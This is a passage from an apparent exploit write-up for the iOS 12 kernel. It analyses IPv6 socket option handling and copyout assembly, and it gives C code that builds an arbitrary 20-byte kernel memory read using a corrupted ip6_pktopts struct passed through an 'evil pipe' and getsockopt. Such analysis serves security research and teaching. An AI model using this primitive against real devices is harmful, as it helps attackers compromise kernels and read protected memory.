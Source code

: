 ```
optdatalen = (ip6e->ip6e_len + 1) << 3;
```

Since `ip6e_len` is one byte, we can easily find the maximum and minimum values for `ip6e_len` that produce good values for `optdatalen`. If the byte after the least significant byte ends up being `0xff`, `optdatalen` will be `0x800`, because `(0xff + 1) << 3 == 0x800`. If that byte is `0`, `optdatalen` will be `0x8`, because `(0 + 1) << 3 == 0x8`. This is actually great for us because there's no scenario where `optdatalen` could end up being less than eight. My only issue with this is we'll start reading huge chunks of kernel memory as that byte approaches the higher end, so there is the slight chance of hitting an unmapped region of memory, triggering a panic. Any four of these options would work for reading kernel memory, but we still have one more option to look at.

In a sea of annoying variations for `optdatalen`, we have one option that breaks the status quo: `IPV6_PKTINFO` (code simplified):

```
optdata = (void *)pktopt->ip6po_pktinfo;
optdatalen = sizeof (struct in6_pktinfo);
```

Again, since `optdata` gets assigned to `pktopt->ip6po_pktinfo`, a pointer that we control, we control `copyout`'s `kaddr` argument. `pktopt->ip6po_pktinfo` would normally point to an `in6_pktinfo` struct. `optdatalen` is simply assigned to `sizeof(struct in6_pktinfo)`. On an iPhone SE running iOS 12, `sizeof(struct in6_pktinfo)` yields 20. This is what the assembly of the code above, followed by the call to `copyout`, would look like:

```
LDR X0, [<Rn>, #<imm>]        ; assume Rn = the pktopt parameter and imm is the offset of
                              ; the ip6po_pktinfo field
                              ; X0 = pktopt->ip6po_pktinfo (optdata, aka kaddr)
LDR X1, [<Rn>, #<imm>]        ; assume Rn = the sopt parameter and imm is the offset of
                              ; the sopt_val field
                              ; X1 = sopt->sopt_val (uaddr)
MOV W2, #0x14                 ; W2 = sizeof(struct in6_pktinfo) (optdatalen, aka len)
BL copyout
```

We can control `X0`, the `kaddr` argument to `copyout`, and `W2`, the `len` parameter to `copyout`, is simply 20! This is so much better than reading an unknown amount of kernel memory with the previous four options we were looking at. After a long time, we can finally get the kernel to copy out its memory with this code:

```
/* read out the old ip6_pktopts struct, update
 * it for the kernel read, then shove it back
 * into our evil pipe
 */
struct ip6_pktopts old_pktopts = {0};
read(evil_pipe[0], &old_pktopts, sizeof(old_pktopts));

struct ip6_pktopts new_pktopts = {0};
new_pktopts.ip6po_pktinfo = kaddr;

write(evil_pipe[1], &new_pktopts, sizeof(new_pktopts));
    
struct in6_pktinfo info = {0};
socklen_t infosz = sizeof(info);

getsockopt(evil_socket, IPPROTO_IPV6, IPV6_PKTINFO, &info, &infosz);
```
